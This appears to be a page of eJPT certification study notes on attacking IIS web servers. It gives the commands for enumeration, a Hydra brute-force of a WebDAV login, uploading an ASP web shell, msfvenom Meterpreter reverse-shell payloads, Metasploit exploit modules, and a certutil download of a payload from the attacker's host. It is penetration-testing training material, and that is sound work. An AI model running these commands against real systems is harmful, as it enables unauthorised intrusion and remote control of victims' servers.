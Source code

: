 ## HTTP IIS - p80

[eJPT - Exam Notes Index](https://github.com/sedici-gith/eJPT/tree/main)

### Nmap scripts

Directory enumeration
```
nmap 10.10.10.1 -sV -p 80 --script http-enum
```
Header Enumeration
```
nmap 10.10.10.1 -sV -p 80 --script http-headers
```
HTTP Methods enumeration
```
nmap 10.10.10.1 -sV -p 80 --script http-methods --script-args http-method-path=/webdav/
```
WebDAV Enumeration
```
nmap 10.10.10.1 -sV -p 80 --script http-webdav-scan —script-args http-method-path=/webdav/
```
## WebDAV

This service used to facilitate the transfer of files between and within the site.

### Exploitation tools

* davtest
* cadaver

Hydra brute-force attack on the WEBDav login web page.
```
hydra -L userlist.txt - P passwordlist.txt 10.10.10.1 http-get /webdav/
```
DavTest is a utility used to determine which file extensions are supported by the service (upload and execution).
```
davtest -url http://10.10.10.1/webdav -auth bob:password_123321
```
Cadaver is a utility used to upload a web shell to the target site, allowing for remote code execution (RCE) and gaining access to a command-line interface (CLI).
```
cadaver http://10.10.10.1/webdav
put /usr/share/webshells/asp/webshell.asp
```

### WebDav Exploit

*Using Cadaver*

MSFVenom can be used to create a payload for Cadaver.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.1 LPORT=1234 -f asp > shell.asp
```
```
cadaver http://10.10.10.1/webdav
put /root/shell.asp
```

Metasploit can be used to accept the connection from the target machine.
```
use multi/handler
set payload windows/meterpreter/reverse_tcp
run
```
Execute the shell script uploaded to the browser.

*Using Metasploit*
```
use exploit/windows/iis/iis_webdav_upload_asp
```
This process is identical to the one executed with the help of Cadaver.


### HFS Exploit
```
Rejetto Exploit using Metasploit
use exploit/windows/http/rejetto_hfs_exec
```
### METASPLOIT

Using the search function there are many modules to use.
* http_version - enumerate server version
* http_header - enumerate header
* robots.txt - enumerate robots.txt
* dir_scanner - brute-force directory
* files_dir - brute-force files
* apache_userdir_enum - users enumeration
* http_login - brute-force credentials
* dir_scanner
* dir_listing
* http_put
* http/options


### Web App Vulnerability Scanning with WMAP

WMAP is a Metasploit plugin that automates the vulnerability scanning process by applying some modules that are already part of Metasploit.
```
load wmap
wmap_sites -h
wmap_sites -a 10.10.10.1 - add target site
wmap_targets -h
wmap_targets -l - retrieve lists of targets
wmap_targets -t http://10.10.10.1/ - set a target
wmap_run -h
wmap_run -t - lists modules used during the scan
wmap_run -e - executes scan
```
### Exploiting a vulnerable Apache Tomcat web server

Apache Tomcat is usually used to host sites developed in Java e uses port TCP 8080.
```
search type:exploit tomcat_jsp_upload_bypass
set payload java/jsp_shell_bind_tcp
```
Once we have a valid session, we can use MSFVenom to create a payload.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.2 LPORT=1234 -f exe > meterpreter.exe
python -m SimpleHTTPServer 80
```
On the target machine we can download the payload and execute it. Remember to set a multi/handler in Metasploit to handle the reverse TCP shell.
```
certutil -urlcache -f http://10.10.10.2/meterpreter.exe meterpreter.exe
```

